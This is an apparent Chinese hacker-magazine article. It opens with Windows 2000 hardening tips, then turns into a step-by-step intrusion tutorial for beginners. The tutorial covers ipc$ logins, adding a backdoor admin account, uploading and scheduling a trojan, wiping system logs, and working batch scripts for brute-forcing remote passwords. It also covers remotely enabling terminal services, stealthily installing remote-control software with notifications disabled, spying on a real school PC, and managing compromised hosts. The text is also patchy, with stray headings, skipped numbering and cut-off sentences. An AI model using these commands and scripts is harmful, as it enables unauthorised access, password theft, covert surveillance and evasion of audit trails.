ICMP（Internet Control Message Protocol，因特网控制消息/错误报文协议）这个协议主要是用来进行错误信息……

## 主题乐园

和控制信息的传递，如 Ping 和 Tracert 就是利用 ICMP 协议中的 ECHO Request 报文进行的。

ICMP 协议有一个很重要的特点——它是无连接的。也就是说，只要发送端完成 ICMP 报文的封装并传递给路由器，这个报文将会像邮件一样自己去寻找目的地址。这个特点使得 ICMP 协议非常灵活快捷，但同时也有一个致命缺陷——易伪造。任何人都可以伪造一个 ICMP 报文并发送出去，伪造者可以利用 SOCK_RAW 编程直接改写报文的 ICMP 首部和 IP 首部，这样报文携带的源地址是伪造的，在目的端根本无法追查。现在有不少基于 ICMP 的攻击软件。

- 1. 关闭 ICMP 的步骤（比较复杂哦）：
  - 网上邻居 → 属性 → 要配置的网卡 → 属性 → TCP/IP → 高级 → 选项 → TCP/IP 过滤。
  - 过滤器分为 TCP 端口、UDP 端口和 IP 协议，先允许 TCP/IP 过滤，然后逐项配置。
  - 先是 TCP 端口，点击“只允许”，再加入需要开放的端口。一般 WEB 服务器需要 80（WWW），FTP 服务器需要 20（FTP Data）、21（FTP Control），邮件服务器可能需要 25（SMTP）、110（POP3）等。
  - 接着是 UDP。由于 UDP 与 ICMP 一样基于无连接、易伪造，如非必要（例如 DNS）可尽量不允许，以避免 Flood/Fragment 攻击。
  - 在右侧编码框里选择“只允许 TCP 协议”，添加“6”，因为这里的 IP 协议过滤指狭义 IP 协议。ICMP/IGMP 虽属 IP 的附属协议，但从网络七层结构看与 IP 同层。
  - 如果只允许 TCP，ICMP 报文仍可正常通过，因此还需进一步处理。

- 2. 使用 IPSEC：
  - 打开本地安全策略，选择 IP 安全策略，定义自己的 IP 安全策略。
  - 一个 IP 安全过滤器由“过滤策略”和“过滤操作”两部分组成。
  - 过滤策略决定哪些报文应被过滤器关注；过滤操作决定“允许”还是“拒绝”报文通过。
  - 新建规则 ICMP_ANY_IN：源地址任意 IP，目标地址本机，协议类型 ICMP。
  - 新建操作 Deny（阻止），将其绑定到 ICMP Filter，启用后任何到达本机的 ICMP 报文都会被丢弃。

- 3. Routing & Remote Access：

在上面我们已经利用 IPsec 能对 ICMP 报文进行过滤，不过操作较繁琐，而且如果只想过滤特定 ICMP 报文、保留一些常用报文（如主机不可达、网络不可达等），可以利用 Win2000 的“路由与远程访问控制（Routing & Remote Access）”完成更复杂的过滤操作。

路由与远程访问控制是 Win2000 用来管理路由表、配置 VPN、控制远程访问、进行 IP 报文过滤的工具。默认情况下未安装，因此首先需启用它。打开“管理工具”→“路由与远程访问”，右击服务器（如果没有则需添加本机），选择“配置并启用路由及远程访问”。向导中选择“手动配置”，完成后在本机出现一个 IP 路由图标。

在“常规”中选择你想配置的网卡，在网卡属性中点击“输入筛选器”，添加一条过滤策略“from:ANY to:ANY 协议:ICMP 类型:8 编码:0 丢弃”，即可阻止 Ping 使用的 ICMP_ECHO 报文（若要过滤所有 ICMP 报文，可将类型和编码都设为 255）。

- 9. **禁止响应 ICMP 路由通告报文**
- 10. **防止 ICMP 重定向报文的攻击**
- 11. **防止 SYN 洪水攻击**
- 12. **不支持 IGMP 协议**
- 13. **ARP 缓存老化时间的设置**
- 14. **禁止死网关监测技术**
- 15. **不支持路由功能**
- 16. **做 NAT 时放大转换的对外端口最大值**

| 项目 | 注册表路径 | 键名 | 类型 | 设置值 | 默认值 | 说明 |
|---|---|---|---|---|---|---|
| 9. 禁止响应 ICMP 路由通告报文 | `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters\Interfaces\interface` | `PerformRouterDiscovery` | `REG_DWORD` | `0x0` | `0x2` |  |
| 10. 防止 ICMP 重定向报文的攻击 | `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters` | `EnableICMPRedirects` | `REG_DWORD` | `0x0` | `0x1` | 该参数控制 Windows 2000 是否会改变路由表以响应网络设备发送的 ICMP 重定向消息，默认会响应。 |
| 11. 防止 SYN 洪水攻击 | `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters` | `SynAttackProtect` | `REG_DWORD` | `0x2` | `0x0` |  |
| 12. 不支持 IGMP 协议 | `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters` | `IGMPLevel` | `REG_DWORD` | `0x0` | `0x2` |  |
| 13. ARP 缓存老化时间的设置 | `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters` | `ArpCacheLife` | `REG_DWORD` | `0-0xFFFFFFFF`（秒） | 约 `120` 秒 |  |
| 13. ARP 缓存老化时间的设置 | `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters` | `ArpCacheMinReferencedLife` | `REG_DWORD` | `0-0xFFFFFFFF`（秒） | 约 `600` 秒 |  |
| 14. 禁止死网关监测技术 | `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters` | `EnableDeadGWDetect` | `REG_DWORD` | `0x0` | `0x1` |  |
| 15. 不支持路由功能 | `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters` | `IPEnableRouter` | `REG_DWORD` | `0x0` | `0x0` | 设为 `0x1` 可使 Win2000 具备路由功能，一般会带来不必要风险。 |
| 16. 做 NAT 时放大转换的对外端口最大值 | `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters` | `MaxUserPort` | `REG_DWORD` | `5000-65534`（十进制） | `0x1388`（十进制 `5000`） | 当应用程序从系统请求可用的用户端口数时，该参数控制所使用的最大端口数。正常情况下，短期端口分配范围为 1024-5000；若设置超出有效范围，则使用最接近的有效值（5000 或 65534）。使用 NAT 时建议把值放大点。 |

## 17、关闭445端口

大家应该知道，最近出现了一种弱口令蠕虫，它通过扫描 Win2k 或者 XP 的 445 端口，然后进行共享会话猜测管理员系统口令。如果猜测到口令，则通过共享上传蠕虫文件，最终在主机上开启 VNC 后门，该后门开启 5800 和 5900 端口，能够进行远程控制。

当然，对付这个蠕虫的办法很多。但是，我们可以看到 445 端口在这里起了“关键”作用。那么，我们可不可以关闭掉 445 端口呢？答案是肯定的。

```
修改注册表，添加一个键值
Hive: HKEY_LOCAL_MACHINE
Key: System\ControlSet\Services\NetBT\Parameters
Name: SMBDeviceEnabled
Type: REG_DWORD
Value: 0
```

## 18、改变默认值

包括 Windows 系统的一些默认值。例如：数据包的生存时间（TTL）值，和本机的 MAC 地址。

首先，不同系统有不同的值，有些攻击者是根据 TTL 的不同值判断对方使用的是何种操作系统（例如 Windows 2000 默认值 128），所以，通过修改 TTL 值也在一定程度上可以保护我们的系统。

```
具体步骤，修改：HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters
DefaultTTL REG_DWORD 0-0xff（0-255 十进制，默认值 128）
```

说明：指定传出 IP 数据包中设置的默认生存时间（TTL）值。TTL 决定了 IP 数据包在到达目标前在网络中生存的最大时间，它实际上限定了 IP 数据包在丢弃前允许通过的路由器数量，有时可用此数值来探测远程主机操作系统。

其次，修改 MAC 地址：在 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Class` 下，找到描述为“网卡”的目录（例如 `{4E16D952-E325-11CE-BFC1-06002BE10318}`），展开后在 0000、0001、0002… 分支中找到 `DriverDesc` 的键值以定位网卡说明。然后在右侧新建字符串值 `Network Address`，填入希望的 MAC 值（例如 `005345400040`），重启计算机，在 cmd 中使用 `ipconfig /all` 查看即可。

### 二、补丁安装，以及 MBSA、HFNetChk 的使用

现在，我们已经安装完一些基本的组件，到了该打补丁的时候了。切记，补丁的安装应该在安装完所有需要的组件和应用程序以后，这是因为补丁程序往往要替换或者修改一些系统文件；如果先安装补丁再安装应用程序，有可能导致补丁无效。

但是，一个聪明的网管并不一定会在一个补丁出来以后立即选择安装它，而是应该全面考虑：补丁的安装是否又会带来新的问题呢？

这里，我向大家推荐 MBSA，这个微软自己推出的软件。它是一个可以在微软 TechNet 网站上免费下载的应用程序。MBSA 可以安装并运行在 Microsoft Windows 2000 Server、Windows 2000 专业版、Windows XP Home Edition 和 Windows XP Professional 上。它实际上可以说是 HFNetChk 功能的一个超集。

MBSA 与 Windows Update 有哪些不同？它们采用不同的方式对系统进行分析。例如：Windows Update 仅包括针对 Windows 操作系统的关键修补程序，而 MBSA 可以报告 Windows 操作系统和其他微软产品（SQL SERVER 等）缺少的即时修补程序。此外，有时某些即时修补程序会重新发行（如 MS02-008），而 MBSA 总是确保你的系统上安装的是最新的修补程序版本，但 Windows Update 却做不到这点。

MBSA 会对一个或多个系统进行扫描，并返回一个有关安全修补程序缺少、密码脆弱、Internet Explorer 和 Outlook Express 安全设置以及 Office 宏保护设置等方面的报告。它还会提供有关眼前的安全问题及其修复方式的信息，以及指向有关该问题的其他信息的链接。

虽然微软将这个软件定位于基本安全分析和检测，但微软毕竟是微软，而且又是针对它自己的产品，所以感觉还是和其他的安全分析工具有所不同。篇幅所限，更多具体介绍，可以到下面这个地址查看：

```
http://www.microsoft.com/china/technet/security/tools/tools/mbsaqa.asp
```

### 三、善于借助第三方防火墙及杀毒软件

现在网络上各种病毒，千奇百怪，应有尽有，所以，安装杀毒软件就显得非常必要了。常见的杀毒软件有诺顿，国内的金山、瑞星等等。

然而，安装了杀毒软件不等于万事大吉了，要注意经常更新，否则，在新出现的病毒面前，杀毒软件一样爱莫能助。

防火墙的重要性，我想也不用我啰嗦了。目前大家用得比较多的，大都是“软件防火墙”，如 ZoneAlarm、BlackICE，国内的天网等等。装上防火墙以后，最重要的是配置好规则，否则，也起形同虚设。

经过上面的配置，你的服务器可以说“基本”上已经安全了。为什么说是“基本”上安全了呢？安全是个过程，不可能一蹴而就，它像儿童那样需要持续的关心和爱护。

- 1. 定期更新杀毒软件的病毒库；
- 2. 加入一些大的邮件列表，像国外的 SecurityFocus 和国内的 NSFOCUS，关注安全动态，“与时俱进”；
- 3. 以一个攻击者的“目光”来审视你的网络，试着定期对你的服务器进行扫描、渗透你的服务器。要相信，你能做到的，攻击者一定能做到；你做不到的，攻击者同样可能做到；
- 4. 末了，送你一句话：对于安全，怎样小心都不为过。

## 主题乐园

中国现在盛产菜鸟，几乎每个 BBS 里都可找出一大堆。说实话，我自己也是一个较菜的菜鸟。这几年计算机网络在中国发展的确很快，从外表上看，我们在计算机方面似乎已经很发达，可从近几年的黑客大战来看，我们的处境还是很严峻。虽然在大战中，我们让别人损失了不少东西，可我们用的是什么方法呢？只是给……


他们发些垃圾堵住它们罢了，这样的方法是没有太多技术成分的。美国攻打伊拉克已经很长时间了，战况怎样我们不管，但在没有对伊拉克动武以前，美国已在网络上对伊拉克进行了攻击，也就是电子战。结果当然没有什么悬念了。所有的一切只能证明一点，当今世界没有技术，我们是赢不了别人的！

在网吧里，十有八九的人在打游戏，其他的在看电影、聊天。虽然大家都享受着20世纪文明的产物——计算机，但了解它的又有多少人呢？我曾经是个非常爱灌水的菜鸟，虽然灌水能学些东西，但进步不会很明显。假如你真的喜欢网络，那么就和我一起学习吧！不管现在是多菜，只要肯努力，总有一天你会成为“才”鸟的！还等什么呢？各类菜鸟们，咱们起飞吧！

## 菜鸟加油站

首先，你得丢掉那些满是游戏的 Win98 系统，装个 Win2000。想要跑得快，我们当然不能开拖拉机，选个小轿车那才舒服啊！想要跑得远，就应给自己多加点油，先学一点基础的东西吧。

入侵一般都离不开 CMD（Win2000/XP 下面的 DOS）。DOS 是于前几年流行的东西，自从有了 Windows，大家都快把它给忘了。熟练掌握一些常用的入侵命令，你的水平会提高很多。别小看 DOS 命令哦，它的功能很强大的！

### 1. net 命令

只要你拥有某 IP 的用户名和密码，而且也有 IPC 共享，那就用 ipc$ 连接它吧！假如你得到的用户是 test，密码是 159753，对方 IP 为 192.168.0.1，那么命令就是：

```
net use \\192.168.0.1\ipc$ "159753" /user:"test"
```

有些主机允许建立空连接，意思就是：密码和用户空着就可以和主机建立连接。命令是：

```
net use \\192.168.0.1\ipc$ "" /user:""
```

建立空连接，我们没有什么权限，不过，可以探测主机的一些信息。断开连接的命令是：

```
net use \\192.168.0.1\ipc$ /del
```

在登录主机后，你可以映射对方硬盘驱动器，不过，它的硬盘必须是共享的。这里的共享是指网络共享，你可以用 net share 这个命令来查看你的共享！

```
net use k: \\192.168.0.1\c$
```

这个命令的意思是把远程主机的 C 盘映射到本地，在本地显示的是 K 盘！如果你登录主机的账户有管理员权限，那么就可以创建用户了。下面，我们看看怎么创建用户。假如我们要创建一个用户名为 hacker，密码为 123456 的用户：

```
net user hacker 123456 /add
```

```
net localgroup administrators hacker /add
net user
net user hacker
net user hacker 159753
net user hacker /active:yes
```

等显示命令完后，我们再把它加入 administrators 组里；查看用户列表命令为 net user；查看某个用户信息如 net user hacker；更改用户密码如 net user hacker 159753；激活用户如 net user hacker /active:yes。

### 2. copy 命令

建立 ipc$ 连接后，我们可把本地文件复制到对方硬盘上去。假设我们把本地 C 盘下的 server.exe 复制到 IP 为 192.168.0.1 机器的 C 盘下，命令如下：

```
copy server.exe \\192.168.0.1\c$
copy server.exe \\192.168.0.1\d$
copy server.exe \\192.168.0.1\admin$
copy \\192.168.0.1\c$\server.exe d:\
```

如果要复制到 D 盘，则把 c 改为 d 就行了；如果拷贝到 winnt 目录，则输入 admin$ 共享。也可把对方文件复制到本地，例如把远程主机 C 盘下的 server.exe 拷贝到本地硬盘 d 下。

### 3. at 命令

一般，我们入侵后都会留下后门。我们把木马传上去后，该怎么启动它呢？这就需要用 at 命令了。这里假设你已登录了那台服务器，而且已上传了一个木马，名为 server.exe。现在，我们要让它在远程主机上运行。

```
net time \\192.168.0.1
at \\192.168.0.1 10:3 server.exe
```

### 4. telnet 命令

假如刚才我们给它上传的是 netcat，那么我们可以用 telnet 连接主机的 99 端口了。如下：

```
telnet 192.168.0.1 99
```

这个命令非常实用，不过正常情况下需要用户名和密码。如果你给安了后门，可以直接连到这个木马打开的端口。连接到对方主机后，你就可在对方主机上运行命令了。比如上面提到的添加用户，也可远程启动一些服务。

### 5. del 命令

这个命令也很有用。我们经常会用它来删除系统日志。如果不想被抓进去的话，就乖乖地用用吧！  
NT 的日志一般有这些（假设系统装在 C 盘）：

```
del c:\winnt\system32\logfiles\*.*
del c:\winnt\system32\config\*.evt
del c:\winnt\system32\dtclog\*.*
del c:\winnt\system32\*.log
del c:\winnt\system32\*.txt
del c:\winnt\*.txt
del c:\winnt\*.log
```

当然，你还别忘了和主机断开连接！

### 6. attrib 命令

这个命令是设置文件属性的。有时我们要删除主机上的某个文件，却发现怎么删都不行，那是因为那文件属性被设置成了只读。嘿嘿！有了这个命令就别怕了。

```
attrib -r server.exe
```

这个命令是把 server.exe 的只读属性去掉。  
如果把“-”改为“+”，则把这个文件的属性设置为只读。如下：

```
attrib +r server.exe
```

## 下面是 Ping 命令的一些常用参数：

- **-a** 将目的机器标识转换为 IP 地址；
- **-t** 若使用者不人为中断，会不断 Ping 下去；
- **-e count** 要求 Ping 命令连续发送数据包，直到发出并接收到 count 个请求；
- **-d** 为使用的套接字打开调试状态；
- **-f** 是一种快速方式的 Ping，使得 Ping 输出数据包的速度和数据包从远程主机返回一样快，或者更快，达到每秒 100 次；
- **-i seconds** 在两次数据包发送之间，间隔一定的秒数；
- **-n** 只使用数字方式；
- **-p pattern** 用户可通过这个选项标识 16 字节，把这些字节加入数据包中；
- **-q** 使 Ping 只在开始和结束时打印一些概要信息；
- **-R** 把 ICMP RECORD-ROUTE 选项加入到 ECHO_REQUEST 数据包中；
- **-r** 使 Ping 命令旁路调用于发送数据包的正常路由表；
- **-s packesize** 使用户能标识出要发送数据的字节数；
- **-v** 使 Ping 处于 Verbose 方式，除打印 ECHO-RESPONSE 数据包外，还打印其他返回的 ICMP 数据包。

其实命令还有很多，我在这里就不多介绍了，一般菜鸟能掌握上面的命令就差不多了。如果有兴趣你可以自己去学学。要控制一台计算机，我们得有管理的权限。要得到这权限，至少要知道主机的一些信息，我们才有下手的地方。信息收集就是对目标主机及其相关设施、管理人员进行非公开的调查和了解，用于对入侵目标安全防御工作的进一步信息掌握，这是一次入侵前奏，也是入侵所要知道的基础知识。

## 收集主机信息篇

有这样一个真实的故事：  
几年前的一个早晨，一群陌生人走进了一家大型远洋运输公司并控制了该公司的整个计算机网络。……（以下为案例叙述）……他们可以在没有从 CFO 那里获得任何权利的情况下，运用社会的交际和诈骗局让自己畅通无阻。

当然作为菜鸟的我们，不可能有那么厉害。为入侵一台普通主机，我们也不可能做得像间谍那样。但收集主机信息还是最基础的一步。有关于主机的信息有很多，如操作系统、开放端口等。现在开发出来的扫描器也有很多，这倒方便了不少菜鸟。流光就是个不错的扫描器，是国内菜鸟首选的扫描工具。但流光 4.7 已经过时，而流光 5.0 又迟迟未发布，这让很多菜鸟都失望了。因此我这里只能介绍别的扫描器了！

### 1. X-Scan-v2.3 扫描器

X-Scan-v2.3 是一款傻瓜式的扫描器，而且也有汉化的！此扫描器操作简单，而且解压后就可直接使用。解压后得到图1所示的窗口。


## 主题乐园

运行后程序界面如图2所示。


- （1）界面操作简单。界面比较直观，菜单较多，一般的菜单都能操作。下面，我们进行扫描模块设置。  
  对于不同扫描要求，应该选择不同的扫描选项。如果你只是扫扫网段，可只选择“开放端口”“NT弱口令”“NetBIOS信息”（图3），去掉一些没有用的扫描选项，扫描速度会快一点。


- （2）扫描参数设置。扫描参数里的一些选项基本上不用改，填上IP就可进行扫描（图4）。如果要强制扫描主机，可选择“无条件扫描”。这个可扫描一些Ping不通的主机。其他的“端口相关设置”“SNMP相关设置”等可以不用更改。如果需要，可自己进行更改。


- （3）启动扫描。界面如图5所示。用鼠标右键单击主机，可选择“查看”选项，我们要的东西是扫描报告，可直接在界面左边看，也可以网页的形式查看扫描报告。如果你还是不清楚，可参考使用说明书，那里写得很详细！

对于菜鸟来说，希望得到的信息是NT弱口令。只有很少一部分主机能直接得到密码。因此，我们应该多看看其他扫描信息，试着从其他扫描信息中发现一些什么，用其他的方法进入主机。我们不能老是守株待兔，这样水平只能停滞不前。


### 2．手工收集远程主机信息

一般的菜鸟收集主机信息基本上是用软件。下面，我们介绍一下用手工方法收集远程主机的部分信息。不知道你有没有试过！Ping是大家比较常用的命令。用 `Ping 192.168.0.1` 命令，得到：

```text
Pinging 192.168.0.1 with 32 bytes of data:

Reply from 192.168.0.1: bytes=32 time<10ms TTL=128
Reply from 192.168.0.1: bytes=32 time<10ms TTL=128
Reply from 192.168.0.1: bytes=32 time<10ms TTL=128
Reply from 192.168.0.1: bytes=32 time<10ms TTL=128

Ping statistics for 192.168.0.1:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms
```

由此，我们知道192.168.0.1有主机活动。在一般情况下，还可通过返回的TTL值大小，粗略判断目标主机的系统类型是Windows系列还是UNIX/Linux系列。一般的Windows系统返回的TTL值在100—130之间，而UNIX/Linux返回的TTL值在240—255之间。当然，TTL值在对方主机里是可以修改的，Windows系统可通过修改注册表的以下键值实现：

```text
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters\DefaultTTL]
```

### 3．获取主机名

用 `ping -a 192.168.0.1` 命令，得到：

```text
Pinging JFSERVER [192.168.0.1] with 32 bytes of data:
Reply from 192.168.0.1: bytes=32 time<10ms TTL=128
Reply from 192.168.0.1: bytes=32 time<10ms TTL=128
Reply from 192.168.0.1: bytes=32 time<10ms TTL=128
Reply from 192.168.0.1: bytes=32 time<10ms TTL=128

Approximate round trip times in milli-seconds:
Minimum = 0ms, Maximum = 0ms, Average = 0ms
```

由此可知道，192.168.0.1 的主机名是 JFSERVER（图6）。


### 4. 获取路由信息

用 `C:\>tracert 218.155.4.173` 命令得到如下信息：

```text
Tracing route to 218.155.4.173 over a maximum of 30 hops

1   <10 ms  <10 ms  <10 ms   JFSERVER [192.168.0.1]
2   *       *       *        Request timed out.
3   20 ms   20 ms   20 ms    211.90.30.53
4   50 ms   40 ms   50 ms    211.90.10.241
5   30 ms   30 ms   30 ms    211.94.44.41
6   160 ms  150 ms  181 ms   211.94.42.1
7   191 ms  200 ms  190 ms   211.94.39.82
8   230 ms  241 ms  260 ms   211.94.39.254
9   290 ms  250 ms  231 ms   218.145.63.140
10  491 ms  471 ms  500 ms   203.234.255.214
11  270 ms  260 ms  251 ms   220.73.167.70
12  190 ms  190 ms  200 ms   218.145.32.86
13  220 ms  230 ms  241 ms   218.145.35.2
14  521 ms  551 ms  530 ms   61.83.146.35
15  241 ms  260 ms  250 ms   218.155.4.173

Trace complete.
```

从上面可知道，从我的计算机到 218.155.4.173 一共通过了 192.168.0.1、211.90.30.53、211.90.10.241、211.94.44.41、211.94.42.1 等 15 个路由。

如果一台主机的136到139其中一个端口开了（NetBIOS），就要用 `nbtstat` 命令得到用户，得到用户名后就可猜测密码了。比如比较简单的密码是密码和用户名一致。都试一下，不行就暴力破解！

现在网上很多机子都开了这些端口的，你可以试试。下面是我用 `C:\>nbtstat -a 192.168.0.161` 命令得到的结果：

| Name | Type | Status |
|---|---|---|
| FHJ | <00> UNIQUE | Registered |
| WORKGROUP | <00> GROUP | Registered |
| FHJ | <20> UNIQUE | Registered |
| FHJ | <03> UNIQUE | Registered |
| WORKGROUP | <1E> GROUP | Registered |
| SHANGLIN | <03> UNIQUE | Registered |

MAC Address = 00-E0-4C-E7-74-4F

当然，一般的 Win2000 主机都有默认的管理员账户 administrator，往往弱口令就出现在这个账户上！

### 5. 不用工具破解远程主机的密码

不用工具就可知道远程主机的信息，那么不用工具能破解远程主机的密码吗？下面我介绍一种在 DOS 下破解密码的办法！

将下面文件存为 `pass.bat`：

```bat
@echo off
echo ------------------------------->>c:\pass.txt
echo ------------------------------ >>c:\pass.txt
date /t >>c:\pass.txt
time /t >>c:\pass.txt
echo 破解结果： >>c:\pass.txt
if "%6"=="ok" goto shit2
:shit1
start "正在破解" /min cmd /c for /f %%i in (%1) do call go.bat %2 "%%i" %3
goto quit
:shit2
start "正在破解" /min cmd /c for /l %%i in (%1,%2,%3) do call go.bat %4 "%%i" %5
:quit
```

将下面文件存为 `go.bat`：

```bat
net use \\%1\ipc$ %2 /user:"%3"
goto answer%ERRORLEVEL%
（注：rem %ERRORLEVEL% 表示取前一命令执行返回结果，net use 成功返回 0，失败返回 2）
:answer0
echo 远程主机："%1" >>c:\pass.txt
echo 用户："%3" >>c:\pass.txt
echo 密码：%2 >>c:\pass.txt
net use \\%1\ipc$ /delete
exit
:answer2
```

- 将 `pass.bat` 与 `go.bat` 存放于 system32 中，用法如下：
  1. 如果用字典破解：`pass.bat`，字典文件路径及名称、主机、用户名。  
     `pass c:/password.txt 192.168.0.1 administrator`
  2. 如果用数字破解：`pass.bat`，起始数、步长、结束数、主机、用户名、`ok`。  
     `pass 12345 1 1234567 administrator ok`

密码破解出来后，存放于 `c:\pass.txt` 文件里。用这个方法在局域网里破解密码还挺快的，远程破解的速度一般。


不管用什么方法扫描主机，目的是为了得到远程主机的信息。有很多时候可直接得到密码，扫的次数多了，得到密码的主机也就多了。多了管理就比较麻烦，所以我建议大家把得到密码的主机进行分类。可按国家、网速、稳定性来分。每台主机最好都查明主机的地理位置、密码，以及自己在什么目录下藏有工具。虽然这样做很麻烦，但等你手上的肉鸡多了，就会觉得那样做让你使用起来方便不少。为了方便扫描，你可准备一个全球IP分配列表。当然，一个好的密码字典也是很需要的！你可别说我卖字典啊，我很少扫肉鸡的，所以就不需要好字典了！网上字典工具有很多，你可自行去下载！

## 远程登陆篇

登陆主机的方式多种多样。但由于权限、主机服务类别不一样，而使用不同的登陆方法。大家都希望控制远程主机能像操作自己的计算机一样，但只有部分主机能实现这样的功能。下面我就介绍几种远程控制方法。

远程终端对大家来说应该不会陌生，假如主机开了3389（远程终端服务），我们就可用连接工具进行登陆。Windows XP有这个工具，其他操作系统可自己安装。有些网站还提供了网页形式的远程终端登陆器，如：http://www.dboy.com/3389/3389.htm。因此，你不需要安装软件也可登陆远程主机了。当然，远程主机必须开了远程终端服务，并且你要有那主机的用户名和密码。如果该主机没有开远程终端服务，那我们怎么控制他的主机啊？放心吧，只要你有用户名和密码（管理员权限），远程控制一般都是可实现的！

### 1. 对于Windows 2000 Server

由于Windows 2000 Server都有远程终端程序，只是有些主机没有开启这个服务罢了。如果你有管理员权限，就可远程开启终端服务。下面我就介绍两种远程开启终端服务的方法。

### （1）通过修改注册表

先和主机建立连接（图7），这里当然需要有管理员权限！


图7

点击“开始→运行”，在随之弹出的窗口中键入“regedit”，打开注册表编辑器。点击“文件→连接网络注册表”。在计算机名那儿填上远程主机的IP地址，点“确定”就可连接主机的注册表了！如图8所示。


图8

然后，我们在远程主机的注册表里找到这里：`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp\fEnableWinStation`，将“fEnableWinStation”的值由0改为1（图9）。

点击“确定”，断开远程注册表。等下一次远程主机重启后，我们就可用远程终端登陆主机了！


图9

### （2）利用3389.vbe

运行CMD，命令如下：

```text
cscript 3389.vbe 192.168.0.1 administrator "" 3389 /fr
```

上面的命令应该可以看清楚吧？“cscript 3389.vbe”命令，后面的是IP，然后是管理员账户，接着是密码，因为192.168.0.1这台服务器的管理员密码是空的，那就用双引号表示为空，再后面是终端服务的端口，你可任意设置终端的端口，`/fr`是重启命令（强制重启，你也可以用`/r`，这是普通重启）。

因为终端服务器只在Win2000 Server以上的版本（包括Server）才有，Pro当然是不行的，3389.vbe可以检测服务器的版本，如果是Pro的，则提示你退出安装！

如果一切顺利，过会儿我们就可连接到终端。我们可以ping它，看是否贯通。

```text
ping 192.168.0.1 -t
```

安装后用连接工具连接终端（光盘里有3389.vbe）！

### 2. Windows 2000 Pro

因为Pro没有自身携带远程终端服务，所以我们不可能用远程终端连接器登陆主机，得依靠别的远程控制软件。能进行远程控制的软件有很多，如木马，也有些“合法”的软件。常用的还有PCAnywhere、VNC。在X档案的2003年第4期，我介绍了远程图形控制软件VNC的用法，那东西对菜鸟来说还是比较实用的！你不妨去看看那篇文章。

近日，我用光做Web服务器的肉鸡，用远程终端就是上不去，而且给它装了VNC也连不上。最近针对IIS5漏洞的攻击使我好怕怕，还好我在网上闲逛时找到了一个我熟悉的远程控制软件——Remote-Anything，尽管是E文版的，不过我对其进行了简单的汉化（我第一次汉化软件哦），希望能方便大家使用。用了它，终于解决了我的烦恼。现在的杀毒软件还不能查杀这个远程控制软件的服务端，而且服务端很小，只有80多K。详细使用方法你可参考本刊2003年第4期的《远程窃屏木马——Remote anything》一文。

但我在给某些主机远程安装服务端时，虽然已经用at命令让它在指定时间运行服务端程序，但过了那时间，用户端却怎么也连不上。后来给它装了VNC，上去一看，结果发现那东西根本没有运行。我们细检查了刚才的命令，并没有发现有什么错误。现在还不知道是为什么？希望哪位大虾能指点一下。不过，当时我想起了strcm，VNC就是靠它来完成远程安装的。那是不是可以用它来远程安装Slave呢？说还不如做，我试了试，结果让我很兴奋。利用strcm完全可以远程安装Slave，而且它也可用来远程安装其他东西。下面我就简单介绍一下使用方法。

假如我们要安装一个软件——server.exe，附属的文件还有a.dll。我们先用记事本打开vnc.rcm，然后对以下几个地方进行修改，见图10。


图10

设置完以后另存为server.rcm，然后把你要安装的木马（server.exe和a.dll）放到srcm文件夹里。OK！这样就可利用srcm远程安装木马了。怎么远程安装不需要我介绍了吧！你可以参考上一期介绍VNC的文章。不过，在安装这个软件时，点击“查找”，选择的不是“vnc.rcm”，而是“server.rcm”。另外，在安装完server.exe时，它会提示远程主机重启，那没有关系，因为连接我们安装的server.exe用的不是vncviewer.exe，你不用管它，马上就可以用和server对应的连接工具连接主机。

我试了用它安装好几种木马，结果除了几台装有杀毒软件的主机外，其余的基本都成功。注意：在安装时要关闭本地的杀毒软件。

不知道大家对DameWare NT Utilities是否熟悉。那是款功能强大的远程控制软件，而且有完全汉化的版本。它有很多功能和Remote-Anything差不多，不过各有优点。它是款傻瓜式的远程控制软件，而且使用和安装都很容易。下面，我就简单给大家介绍一下DameWare NT Utilities的用法。

准备工作：安装软件、汉化软件、注册软件。这些东西应该很容易，不需要我告诉你了吧！安装完成后，运行DameWare Mini Remote Control，如图11。


图11

填上主机IP地址、用户名（管理权限）和密码，然后按连接。如果你想保存主机资料，以方便下次连接，就在“记住安全证书”前打勾。

接下来，软件要对远程主机进行一些检测。我们慢慢等吧！过一会儿它会弹出一个对话框（图12）。由于远程主机还没有安装服务端，它提示你是否立即安装。此时，我们先别忙着点“确定”。先来配置一下服务端吧！


图12

### 配置方法如下

在“复制配置文件DWRCS.INI”前打勾，然后按“编辑”，对配置文件进行编辑（图13）。


图13

这里配置服务端的选项有很多，不过我这里就介绍配置连接提示的选项。首先，我们去掉“启用系统栏图标”选项（图14）。然后，再去掉“连接时通知”的选项（图15）。这样就差不多了，不过你有其他要求，可以自己设置，一般这样设置就可以了。确定后就开始安装了（图16）！


图14


图15

## 主题乐园

### 入侵基地篇（肉鸡的使用）


别慌，稍等一会儿，如果你的网速很快，几秒钟就可完成！看看我连上以后的效果怎么样（图17）！！


呵呵！这是我们学校团委一“凌达 Ctrl+Alt+Delete”的电脑，在编辑音乐呢！由于这个软件和 Remote-Anything、VNC 一样，都是合法软件，所以杀毒软件是不会发现的！你也可以给远程主机发送一些命令，点击发送就可以选择了（图18）！


由于这个软件很多东西和 Remote-Anything 类似，而且设置也很简单，所以我就不多介绍了。如果还不会，可以来问我。对于这个软件你的感觉怎么样？它应该比 VNC 强吧！它的安装方法是最受菜鸟欢迎的，而且也有木马软件的一些功能，比如邮件通知。

